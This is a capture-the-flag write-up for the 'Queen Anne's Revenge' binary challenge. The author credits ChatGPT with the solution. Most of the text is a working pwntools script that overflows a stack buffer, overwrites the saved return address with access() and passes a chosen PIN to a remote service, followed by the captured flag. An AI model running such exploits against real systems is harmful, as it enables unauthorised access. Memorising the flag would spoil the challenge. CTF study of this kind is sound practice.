

# Queen Anne's Revenge

## Description

Aye, lad, can ye outsmart the wicked Blackbeard? if ye can, ye'll be the richest lad in all of Nassau!!!!!

## Solution

So i gave my best friend ChatGPT the deassembled code, information about the executable like non ASLR and PIE. Also i provided information about this:

```text
OFFSET = 27                   # bytes to saved EIP
ACCESS_ADDR = 0x080491e6      # access() address found earlier
FAKE_RET = 0x41414141
PIN_DESIRED = 0x4d2           # 1234
```

Then ChatGPT cooked the code for me and it gave me this code and i run it and i got the flag

```python
#!/usr/bin/env python3
# remote_exploit.py
from pwn import *
import sys, time

# discovered values from local analysis (keep these as-is unless remote binary differs)
OFFSET = 27                   # bytes to saved EIP
ACCESS_ADDR = 0x080491e6      # access() address found earlier
FAKE_RET = 0x41414141
PIN_DESIRED = 0x4d2           # 1234

context.arch = 'i386'
context.log_level = 'info'

def make_payload():
    name = b"blackbeard" + b"\x00"
    pad_len = OFFSET - len(name)
    if pad_len < 0:
        raise Exception("NAME too long for discovered offset")
    payload = name + b"A" * pad_len
    payload += p32(ACCESS_ADDR)
    payload += p32(FAKE_RET)
    payload += p32(PIN_DESIRED)
    return payload

def try_recv_until_any(r, patterns, timeout=3):
    """Try to recvuntil any of the patterns. Returns which pattern matched and the data before it."""
    # patterns: list of bytes
    endtime = time.time() + timeout
    buf = b''
    while time.time() < endtime:
        try:
            chunk = r.recv(timeout=0.2)
            if not chunk:
                continue
            buf += chunk
            for p in patterns:
                if p in buf:
                    before, _, after = buf.partition(p)
                    return p, before + p + after
        except EOFError:
            break
        except Exception:
            pass
    return None, buf

def exploit_remote(host, port):
    payload = make_payload()
    log.info(f"Connecting to {host}:{port} ...")
    r = remote(host, port, timeout=10)

    # Many CTF services print a banner before prompt; try to read until prompt(s)
    # We'll look for likely markers; if none found we will still continue.
    prompts = [b'identify yerself, ye scallywag:', b'ye want riches? well then,', b'hand over yer PIN:']
    p_matched, full = try_recv_until_any(r, prompts, timeout=2)
    if p_matched:
        log.info(f"Received prompt containing: {p_matched!r}")
    else:
        log.info("No expected prompt seen yet; printing received data (if any):")
        try:
            print(full.decode('latin-1', errors='ignore'))
        except:
            pass

    # Send the crafted piratename payload
    log.info("Sending crafted piratename payload...")
    r.sendline(payload)

    # Wait for the PIN prompt (it may have already been matched above)
    try:
        r.recvuntil(b'hand over yer PIN:', timeout=3)
    except Exception:
        # maybe the prompt was different or delayed; attempt a more lenient wait
        log.info("PIN prompt not found with recvuntil; trying to read some bytes then sending PIN anyway.")
        try:
            time.sleep(0.5)
            extra = r.recv(timeout=1)
            if extra:
                log.info("Received after payload (snippet):")
                print(extra.decode('latin-1', errors='ignore'))
        except Exception:
            pass

    # Send a visible PIN (we can send 123 so menu still looks consistent)
    r.sendline(b'123')

    # read all remaining output (flag expected here)
    time.sleep(0.2)
    try:
        out = r.recvall(timeout=3)
    except Exception:
        out = b''
    if out:
        print(out.decode('latin-1', errors='ignore'))
    else:
        log.warning("No output received after sending payload — try increasing timeouts or check remote differences.")
    r.close()

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("usage: python3 remote_exploit.py <HOST> <PORT>")
        sys.exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    exploit_remote(host, port)
```

And after running the script against the remote server i got the flag: `HCS{y4rrrr_ill_se3_y3_in_d4vy_j0n35_l0ck3r_4ye_fac4b015-09d6-4576-85a6-aaf2c201a3c4}`


